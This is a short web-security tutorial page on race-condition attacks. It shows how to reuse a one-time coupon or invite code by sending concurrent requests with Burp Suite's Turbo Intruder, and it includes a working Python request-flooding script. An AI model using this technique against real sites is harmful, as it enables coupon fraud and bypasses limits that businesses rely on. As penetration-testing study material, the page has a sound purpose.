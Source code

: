 ```yaml
---
title: Web Race Condition Attack
description: Race condition is a vulnerability of web applications by concurrent requests to circumvent limiting the state.
tags:
    - Web
ref:
date: 2023-08-14
draft: false
---
```


## Investigation

If target website has the functionality that logged-in user can apply the 10% off code for buying products, the code must be applied only one time most of the time. However, this rule might be bypassed by exploiting race condition vulnerability with concurrent requests.

<br />

## Race Condition Attack using Turbo Intruder in Burp Suite

We can easily achieve race condition attack by using Turbo Intruder.

1. In **Burp Suite**, right-click on specific request.
2. Select **Extensions → Turbo Intruder**. If it does not exist, you need to install it in the BApp Store of Burp Suite.
3. In Turbo Intruder window, set specific value to the  **`concurrentConnection`** param of the **`RequestEngine`** method. This value is up to target website logic. For example, if we need to apply coupon code 20 times in EC site, set `20`.
    
    ```python
    def queueRequests(target, wordlists):
        engine = RequestEngine(
            endpoint=target.endpoint,
            concurrentConnections=20, # change this value for race condition.
            requestsPerConnection=1,
            pipeline=False)
    
        # For loop requests
        i = 0
        while i < 100: # this value is arbitrary but not very important for this situation.
            engine.queue(target.req, None)
            i += 1
    
    def handleResponse(req, interesting):
        if interesting:
            table.add(req)
    ```
    
4. Now click **Attack** button. Since the request N times at the same time, we may be able to bypass the limit to be applied some code e.g. coupon, invite code, etc.
